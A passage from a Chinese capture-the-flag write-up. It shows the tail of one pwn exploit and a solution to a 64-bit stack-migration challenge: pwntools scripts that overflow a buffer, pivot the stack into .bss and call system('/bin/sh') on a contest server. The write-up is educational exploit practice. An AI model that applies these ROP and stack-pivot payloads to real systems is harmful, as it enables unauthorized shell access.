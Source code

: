```python
p += pack('<Q', 0x0000000000401cf4) # syscall

r=remote("contest.ctf.nefu.edu.cn",32846)
r.send(b"a"*(0x48)+p)
r.interactive()

```

55:stack_migration

​	64位栈迁移.

​	由于system在执行时需要很大很大(真的很大!)的栈空间,所以我们将栈迁移到bss+0xE00,然后调用system("/bin/sh")即可.

​	代码:

```python
from pwn import *
bin_add=0x404050
sys_add=0x401090
learet_add=0x40122a
rdi_add=0x4011d8
bss_add=0x404060+0xE00
read_add=0x4010B0
vuln_read_add=0x40120E
gif2_add=0x4011D0
puts_plt=0x401080
puts_got=0x404018
subrsp_add=0x4011E5
rsi0_add=0x118f32
rdx0_add=0xabc86
main_add=0x401291
rbp_add=0x40119d

payload=b'a'*0x20+p64(bss_add+0x20)+p64(vuln_read_add)

r=remote("contest.ctf.nefu.edu.cn",33182)
#libc=ELF("./libc.so.6")
#r=process('./pwn')
#gdb.attach(r)

#pause()
r.recv()
r.send(payload)

payload2=p64(rdi_add)+p64(bin_add)+p64(sys_add)+b'a'*0x8+p64(bss_add-0x8)+p64(learet_add)

r.send(payload2)

r.interactive()
```

​	写这道题的过程对我理解栈的结构帮助还是挺大的.
